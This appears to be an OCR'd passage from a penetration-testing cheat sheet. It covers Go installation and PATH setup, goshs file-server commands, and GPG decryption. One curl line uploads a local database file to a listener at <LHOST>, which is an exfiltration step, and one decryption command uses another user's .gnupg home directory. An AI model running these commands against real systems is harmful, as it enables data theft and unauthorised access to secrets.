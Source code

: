 ```console
$ sudo rm -rf /usr/local/go
$ sudo tar -C /usr/local -xzf /PATH/TO/FILE/go1.21.3.linux-amd64.tar.gz
$ echo $PATH | grep "/usr/local/go/bin"
```

### Environment Variables

```console
$ export PATH=$PATH:/usr/local/go/bin
$ export GO111MODULE=on
```

```console
$ export GOROOT=/usr/local/go
$ export GOPATH=$HOME/go
$ export PATH=$GOPATH/bin:$GOROOT/bin:$PATH
```

```console
$ export GOPATH=$HOME/go
$ export PATH="$HOME/go/bin:$PATH"
$ export PATH=$PATH:$GOROOT/bin:$GOPATH/bin
```

## goshs

### Common Commands

```console
$ goshs -i <LHOST> -p <LPORT> -d /PATH/TO/DIRECTORY/
$ goshs -i <LHOST> -p <LPORT> -d /PATH/TO/DIRECTORY/ -b <USERNAME>:<PASSWORD>
$ goshs -i <LHOST> -p <LPORT> -d /PATH/TO/DIRECTORY/ -si -b <USERNAME>:<PASSWORD>
```

### Copy File to the Server

```console
$ curl -F database=@./database.db -u <USERNAME>:<PASSWORD> http://<LHOST>/upload
```

## GPG

### Common Commands

```console
$ gpg -k
$ gpg -K
```

### Decryption

```console
$ gpg --use-agent --decrypt <FILE>.gpg > <FILE>
$ gpg --homedir /home/<USERNAME>/.gnupg --pinentry-mode=loopback --use-agent --decrypt <FILE>.gpg > <FILE>
```
